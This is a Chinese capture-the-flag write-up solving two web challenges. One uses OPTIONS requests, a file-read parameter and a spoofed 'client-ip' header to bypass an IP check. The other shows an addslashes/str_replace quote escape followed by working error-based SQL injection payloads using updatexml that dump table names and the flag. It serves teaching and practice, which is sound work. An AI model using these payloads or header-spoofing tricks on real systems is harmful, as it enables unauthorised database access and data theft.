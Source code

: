 ## Not Found
首页直接跳转到不存在的 `404.php`，在响应头中发现 `X-Method: haha` 字段。一次尝试 HTTP 方法，当使用 `OPTIONS` 时，发现响应头中多出了 `Location: ?f=1.php` 字段。对这个 url 也进行 `OPTIONS` 请求，得到一段源码：
```php
<?php
	$msg = "not here";
	$msg .= PHP_EOL;
	$msg .="plz trying";
  echo $msg;
```
直接访问 `1.php` 发现这就是 `1.php` 的源码。猜测这个 `f` 参数的功能就是文件读取，尝试 `index.php` 发现不允许。最后发现 `.htaccess` 却可以读：
```
RewriteEngine On
RewriteBase /
RewriteRule ^8d829d8568e46455104209db5cd9228d.html$ 404.php [L]
```
因此我们访问这个 html 得到提示，修改 XFF 头，但是无效。因此我们换而修改 `client-ip` 头为 `127.0.0.1` 得到 flag。

## Vld
F12 得到提示 `index.php.txt`，访问得到了一个看不太懂的文件，似乎是 php 的 opcode。耐心分析还是不难理解的，需要三个 GET 参数 `flag1, flag2, flag3`，分别等于 `fvhjjihfcv, gfuyiyhioyf, yugoiiyhi`。访问新 url 可以下载到源码。

观察源码发现关键的地方在于：
```php
/* dbmysql.class.php */
public function my_md5($string){
    return md5(substr(md5($string),5,24));
}

public function safe_data($value){
    if(MAGIC_QUOTES_GPC){
        stripcslashes($value);
    }
    return addslashes($value);
}

/* login.php */
$username = $db->safe_data($_POST['username']);
$password = $db->my_md5($_POST['password']);
$number = is_numeric($_POST['number']) ? $_POST['number'] : 1;
$username = trim(str_replace($number,'', $username));
$sql = "select * from"."`".table_name."`"."where username="."'"."$username"."'";
```
这里可以看到 `username` 会先被 `addslashes`，然后其中和 `number` 相同的部分会被去掉。这样我们就能让 `'` 逃过转义，当我们提交 `username=%00'` 时，会被 `addslashes` 转义为 `\0\'`，如果 `number=0`，则其中的 0 会被替换掉变成 `\\'`，此时第二个 `\` 被转义，原 SQL 语句变为 `where username='\\'`，成功闭合。

然后就是报错注入，注意语句中不能再出现 `0` 了：
```
number=0&username=%00'or updatexml(1,concat(hex(126),(select group_concat(table_name) from information_schema.tables where table_schema=database()),hex(126)),1)#&password=ccc&submit=

number=0&username=%00'or updatexml(1,concat(hex(126),(select flag from flag),hex(126)),1)#&password=ccc&submit=

number=0&username=%00'or updatexml(1,concat(hex(126),substr((select flag from flag),21,99),hex(126)),1)#&password=ccc&submit=
```
